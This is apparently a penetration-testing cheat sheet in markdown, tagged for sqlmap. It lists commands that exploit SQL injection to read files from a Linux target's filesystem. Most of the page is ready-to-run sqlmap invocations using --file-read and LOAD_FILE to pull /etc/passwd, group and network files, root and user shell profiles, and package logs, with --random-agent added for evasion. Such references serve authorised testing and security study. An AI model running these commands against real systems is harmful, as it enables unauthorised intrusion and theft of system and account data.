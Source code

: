 # Linux

Search Tag(s): #sqlmap #enumeration-and-discovery

## Conditions

1. The DB user must have **FILE** and **SELECT** privileges perform with the flags `--privileges -U CU`.
2. **Note:** Not all files are readable unless the current user is `root@<IP>` (e.g. `root@localhost`). You'll notice that you can't fetch SSH credentials which is normal due to security reasons.

## Automated

- Enumerating user accounts

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/passwd"

$ sqlmap -u "<URL>" --random-agent --sql-query="SELECT LOAD_FILE('/etc/passwd')"
```

- Enumerate user groups

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/group"
```

- Local IPv4 address

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/network/interfaces"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/sysconfig/network"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/networks"
```

- DNS resolve and nameserver IPs

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/resolv.conf"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/hosts"
```

- Environment variables may contain **sensitive information**. You never know that sometimes the sysadmins can be lazy sometimes.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/bash.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bash_profile"

$ sqlmap -u "<URL>" --random-agent --file-read="/home/<username>/.bashrc"

$ sqlmap -u "<URL>" --random-agent --file-read="/root/.bashrc"
```

- Enumerate installed packages that will give you an idea of what services are installed.

```
$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/dpkg.log"

$ sqlmap -u "<URL>" --random-agent --file-read="/var/log/yum.log"
```

- Enumerate Linux kernel

```
$ sqlmap -u "<URL>" --random-agent --file-read="/etc/lsb-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/etc/os-release"

$ sqlmap -u "<URL>" --random-agent --file-read="/proc/version"
```